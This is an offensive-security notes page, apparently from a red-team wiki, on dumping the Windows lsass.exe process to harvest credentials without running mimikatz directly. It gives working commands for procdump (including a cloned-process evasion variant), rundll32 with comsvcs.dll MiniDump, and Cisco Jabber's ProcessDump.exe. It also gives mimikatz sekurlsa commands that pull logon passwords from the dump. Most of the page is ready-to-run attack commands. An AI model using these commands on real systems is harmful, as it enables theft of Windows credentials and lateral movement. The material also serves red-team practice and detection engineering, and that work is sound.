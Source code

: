 # Dumping Lsass Without Mimikatz

## MiniDumpWriteDump API

See my notes about writing a simple custom process dumper using `MiniDumpWriteDump` API:

{% content-ref url="dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md" %}
[dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md](dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass.md)
{% endcontent-ref %}

## Task Manager

Create a minidump of the lsass.exe using task manager (must be running as administrator):

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-55-27.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-56-12.png>)

Swtich mimikatz context to the minidump:

{% code title="attacker@mimikatz" %}
```csharp
sekurlsa::minidump C:\Users\ADMINI~1.OFF\AppData\Local\Temp\lsass.DMP
sekurlsa::logonpasswords
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 19-54-15.png>)

## Procdump

Procdump from sysinternal's could also be used to dump the process:

{% code title="attacker@victim" %}
```csharp
procdump.exe -accepteula -ma lsass.exe lsass.dmp

// or avoid reading lsass by dumping a cloned lsass process
procdump.exe -accepteula -r -ma lsass.exe lsass.dmp
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-11-28.png>)

![](<../../.gitbook/assets/Screenshot from 2019-03-12 20-13-25.png>)

## comsvcs.dll

Executing a native comsvcs.dll DLL found in Windows\system32 with rundll32:

```
.\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 624 C:\temp\lsass.dmp full
```

![](<../../.gitbook/assets/image (165).png>)

## ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:

```
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

![screenshot by @em1rerdogan](<../../.gitbook/assets/image (634).png>)

## References

{% embed url="https://t.co/s2VePo3ICo?amp=1" %}
